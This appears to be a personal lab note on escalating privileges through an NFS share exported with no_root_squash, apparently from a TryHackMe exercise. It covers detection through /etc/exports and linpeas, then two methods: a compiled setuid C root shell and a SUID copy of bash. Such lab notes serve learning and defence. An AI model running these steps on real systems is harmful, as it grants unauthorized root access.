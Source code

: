 - Root squash is an administrative security feature in NFS that **prevents unauthorized root-level access to the NFS server by client machines**.
- no_root_squash,  **allows clients to access the file system as root**
- We can add files, remove them, **do anything as root but ONLY IN THE MOUNTED file system from remote**

# Detection
---
- `cat /etc/exports`
	- ![[Pasted image 20250501152850.png]]
- In linpeas:
	- ![[Pasted image 20250501152934.png]]
- We can mount `/tmp`folder 


# Exploitation
---
- ![[Pasted image 20250501153042.png]]
- Mount the `tmp`folder on Kali (Everything needs to be done on Kali):
	- `mkdir /tmp/mountme`
	- `mount -o rw,vers=2 10.10.106.218:/tmp /tmp/mountme`
		- If this does not work, use `vers=3`
- Make malicious `C`file:
	- `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/x.c`
- Compile:
	- `gcc /tmp/mountme/x.c -o /tmp/mountme/x`
	- If we get errors, include `<unistd.h>`and `<stdlib.h>`
		- ![[Pasted image 20250501154334.png]]
		- ![[Pasted image 20250501154357.png]]
- `chmod +s /tmp/mountme/x`
- **ON victim now:**
---
	-  `/tmp/x`

# Method 2:
----
- Victim:
	`cp /bin/bash /tmp/bash`

- Attacker:
	- `sudo su - mount -o rw,vers=3 <THM-Box-IP>:/tmp /tmp/mountme`
	- `sudo chown root:root /tmp/mountme/bash `
	- `sudo chmod +s /tmp/mountme/bash`
- Victim:
	`/tmp/bash -p`
	![[Pasted image 20250501154905.png]]